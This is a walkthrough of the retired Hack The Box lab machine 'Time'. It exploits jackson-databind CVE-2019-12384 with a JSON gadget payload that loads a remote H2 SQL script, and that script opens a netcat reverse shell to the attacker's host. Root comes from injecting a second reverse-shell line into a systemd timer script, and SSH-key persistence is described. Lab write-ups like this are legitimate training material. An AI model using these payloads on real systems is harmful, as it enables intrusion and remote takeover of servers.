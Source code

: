 ```yaml
---
category: Walkthrough
date: 2021-04-03 16:00:00+00:00
header:
  og_image: https://i.imgur.com/jiSvU4u.png
  teaser: https://i.imgur.com/jiSvU4u.png
language: en-US
namespace: htb-time
redirect_from: /writeup/2021/04/htb-time
tags:
- HackTheBox
- Jackson
- FasterXML
- Service Hijack
- HTB Linux
- HTB Medium
title: 'Walktrough: HTB Time'
---
```

Hello everyone!

The machine of this week will be **Time**, another Linux box medium rated from [Hack The Box](https://www.hackthebox.eu), created by [
egotisticalSW](https://app.hackthebox.eu/users/94858) and [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups for Hack the Box are always posted as soon as machines get retired.
{: .notice--info}

![HTB Time](https://i.imgur.com/mJmeefG.png){: .align-center}

## Enumeration

We start with the enumeration of published services using a `nmap` quick scan, where we can see the output below:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - HTTP Service

Starting by checking the HTTP service published on port 80, noticed that we have a JSON Validation and Beautifier service.

![Online JSON Parser - Time](https://i.imgur.com/V6RbC9L.png){: .align-center}

After some enumeration with `whatweb` and `nikto`, I haven't found anything useful, so I proceeded to app experimentation, looking for some vulnerability that could lead us to some code injection or LFI.

Analyzing the application, we have two functionalities: **Beautify** and **Validate**:

- The option beautify, after receiving a valid JSON, formats it in a pretty manner and, sending an invalid content (e.g. "test"), returns a `null` value.

![Online JSON Parser - Time - beautify](https://i.imgur.com/tpO2p3r.png){: .align-center}

- The Validate option (in beta) checks the syntax of the JSON provided. When we send an invalid request (e.g. "test"), the exception below is returned.

```plaintext
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
```

## Initial Access

After searching for `com.fasterxml.jackson.core` I have found about the **Jackson** project, developed by **FasterXML** and from which core is the base component for [jackson-databind](https://github.com/FasterXML/jackson-databind), a popular JSON library, here used to implement the formatting and validating features.

Looking for CVEs on jackson-databind, I have found the following for code execution published in 2019, according to the page [CVE Details](https://www.cvedetails.com):

![CVE Details](https://i.imgur.com/T2Kth6e.png){: .align-center}

Of the 4 listed, I have found for **CVE-2019-12384** a working PoC at [this blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), which I have used to gain initial access to the box. The following steps were used to get a reverse shell:

- Created a file called `inject.sql` with the code below, modified from the version at the blog, to start a reverse shell to the attacker machine at 4443 and published using a python3 HTTP server (`sudo python3 -m http.server 80`) from the directory where the file resides.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
```

- Configured listener using netcat by running `nc -lnvp 4443`.
- Sent payload below in the application instead of a JSON content to be validated.

```plaintext
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
```

![Listener and Webserver - Time](https://i.imgur.com/7o42urH.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/Pv2Vbzy.png){: .align-center}

## User flag

After upgrading the shell, started enumeration where was identified that the user we were using, **pericles**, was a regular Linux user with no special permissions granted.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Accessing its root directory found the user flag, as below.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Before continuing enumeration, to make easier regaining access if needed, created an SSH key using `ssh-keygen` and configured the public key in the file `~/.ssh/authorized_keys`, allowing us to directly connect to the user pericles via SSH.

The enumeration was done by running `linpeas.sh` and one of the findings called attention, referring to the machine name: a shell file owned by `pericles` in the path `/usr/bin/timer_backup.sh`.

This file is configured as a **system timer** (`/etc/systemd/system/timer_backup.timer` and `/etc/systemd/system/timer_backup.service`) and set be executed **every 10 seconds** as `root`.

As we have enough permissions to edit the shell script, I have added the line below to return a reverse shell on the attacker machine and, after a few seconds, a reverse shell was obtained! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

As the process is re-executed every 10 sec the process tree is terminated, and we lose the existing connection to the machine. To just get the root flag this time is sufficient, which was as done initially.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

In case you want to get a persistent connection at this machine we have two initial options:

- Configure the system timer to add the public key in the `/root/.ssh/authorized_keys` file, allowing us to SSH as `root`.
- Spawn another reverse shell as soon as we get the initial connection, which can be done in multiple ways like Metasploit AutoRunScript and `netcat`, prepending the listener with the instruction to send the payload as soon as it gets connected, as you can see in an example below where the `id` command is executed as soon as the session is started:

```bash
printf "id\n" | nc -lnvp 4443
```

I hope this was useful to you and see you guys in the next post! :smiley:
